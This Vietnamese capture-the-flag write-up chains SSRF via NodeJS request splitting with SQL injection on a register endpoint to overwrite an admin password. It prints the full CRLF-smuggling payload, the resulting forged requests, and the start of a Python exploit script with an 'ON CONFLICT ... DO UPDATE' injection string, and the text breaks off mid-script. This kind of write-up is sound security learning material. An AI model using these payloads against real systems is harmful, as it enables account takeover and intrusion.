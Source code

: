 Ở bài này để lấy được Flag thì phải có 2 điều kiện sau:
+ Request phải đến từ localhost
+ Phải sửa lại password của admin thông qua SQL Injection

Đầu tiên để có request từ localhost ta sẽ tận dụng chức năng getWeather(), ở hàm này sẽ có một hàm tạo request tới url mà url này ta có thể inject vào (127.0.0.1) sau đó truy cập tới chức năng `register` thực hiện injection sửa thông tin mật khẩu của admin sang mật khẩu mà ta đưa vào

Đến đây mình đang gặp vấn đề ở chỗ do khi get payload ở chức năng register bằng method POST nên mình đang không biết cách nào có thể truyền paload bằng method POST lên URL (bài này sẽ không sử dụng được XS Leaks do code exploit của mình sẽ không thực thi được trong hàm này) 

Mình thử lên google tìm cách bypass thì tìm được [SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/)

Hiểu nôm na lỗi này sẽ cho phép bạn chèn vào request gốc một hoặc nhiều request nữa thông qua các ký tự đặc biệt như `\r \n`, đây là lỗi xảy ra với những phiên bản NodeJS < 10 do mặc định NodeJS sử dụng `latin1` để encode nên khi encode các ký tự unicode như `\u010D \u010A` sẽ thành `\r \n`. Ví dụ mình sẽ sử dụng vào bài này như sau

Mình chèn vào `endpoint` payload:

```127.0.0.1/\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010A\u010D\u010APOST\u0120/register\u0120HTTP/1.1\u010D\u010AHost:\u0120127.0.0.1\u010D\u010AContent-Type:\u0120application/x-www-form-urlencoded\u010D\u010AContent-Length:\u012093\u010D\u010A\u010D\u010Ausername=admin&password=admin\u010D\u010A\u010D\u010AGET\u0120/?lol=```

![image](https://user-images.githubusercontent.com/86275419/229216071-70bf581d-f123-4de7-adbf-22bfaa316fc2.png)

Tại hàm này khi nối payload vào vị trí endpoint và request sau đó sẽ có dạng:

```
GET 127.0.0.1/ HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 93

username=admin&password=admin

GET /?lol=/data/2.5/weather?q=Hanoi,VN&units=metric&appid=10a62430af617a949055a46fa6dec32f HTTP/1.1
// Something headers ...

```

Code exploit (python):

```
import requests

url = "http://206.189.113.249:31731" //Change it

username="admin"

password="') ON CONFLICT(username) DO UPDATE SET password = 'admin';--" // Change pass here

password = password.replace(" ","\u0120").replace("'", "%27").replace('"', "%22")
contentLength = len(username) + len(password) + 19
